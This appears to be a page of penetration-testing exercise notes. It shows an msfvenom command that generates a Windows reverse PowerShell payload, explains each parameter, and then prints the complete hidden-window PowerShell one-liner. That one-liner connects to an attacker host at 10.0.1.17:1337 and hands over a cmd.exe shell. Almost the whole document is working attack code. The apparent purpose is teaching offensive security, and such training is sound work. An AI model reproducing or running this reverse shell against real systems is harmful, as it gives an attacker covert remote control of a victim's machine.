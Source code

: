 ```powershell
msfvenom -p cmd/windows/reverse_powershell lhost=10.0.1.17 lport=1337 > shell.txt
```

This command uses the **`msfvenom`** tool from the Metasploit framework to generate a Windows shellcode that creates a reverse PowerShell shell. Let's break down the command:

- **`p cmd/windows/reverse_powershell`**: Specifies the payload to use, which in this case is a reverse PowerShell shell for Windows.
- **`lhost=10.0.1.17`**: Specifies the IP address of the attacker's machine (the listening host) to which the reverse shell will connect back.
- **`lport=1337`**: Specifies the port on the attacker's machine to which the reverse shell will connect.
- **`> shell.txt`**: Redirects the output of the command (the generated shellcode) to a file named **`shell.txt`**.

So, this command generates a PowerShell command that, when executed on a target Windows machine, will establish a reverse shell back to the attacker's machine on IP address 10.0.1.17, port 1337.

![Untitled](Files/2-Exercises/image1.webp)

**reverse shell script shown below**

```powershell
powershell -w hidden -nop -c $a='10.0.1.17';$b=1337;$c=New-Object system.net.sockets.tcpclient;$nb=New-Object System.Byte[] $c.ReceiveBufferSize;$ob=New-Object System.Byte[] 65536;$eb=New-Object System.Byte[] 65536;$e=new-object System.Text.UTF8Encoding;$p=New-Object System.Diagnostics.Process;$p.StartInfo.FileName='cmd.exe';$p.StartInfo.RedirectStandardInput=1;$p.StartInfo.RedirectStandardOutput=1;$p.StartInfo.RedirectStandardError=1;$p.StartInfo.UseShellExecute=0;$q=$p.Start();$is=$p.StandardInput;$os=$p.StandardOutput;$es=$p.StandardError;$osread=$os.BaseStream.BeginRead($ob, 0, $ob.Length, $null, $null);$esread=$es.BaseStream.BeginRead($eb, 0, $eb.Length, $null, $null);$c.connect($a,$b);$s=$c.GetStream();while ($true) { start-sleep -m 100; if ($osread.IsCompleted -and $osread.Result -ne 0) { $r=$os.BaseStream.EndRead($osread); $s.Write($ob,0,$r); $s.Flush(); $osread=$os.BaseStream.BeginRead($ob, 0, $ob.Length, $null, $null); } if ($esread.IsCompleted -and $esread.Result -ne 0) { $r=$es.BaseStream.EndRead($esread); $s.Write($eb,0,$r); $s.Flush(); $esread=$es.BaseStream.BeginRead($eb, 0, $eb.Length, $null, $null); } if ($s.DataAvailable) { $r=$s.Read($nb,0,$nb.Length); if ($r -lt 1) { break; } else { $str=$e.GetString($nb,0,$r); $is.write($str); } } if ($c.Connected -ne $true -or ($c.Client.Poll(1,[System.Net.Sockets.SelectMode]::SelectRead) -and $c.Client.Available -eq 0)) { break; } if ($p.ExitCode -ne $null) { break; }}
```
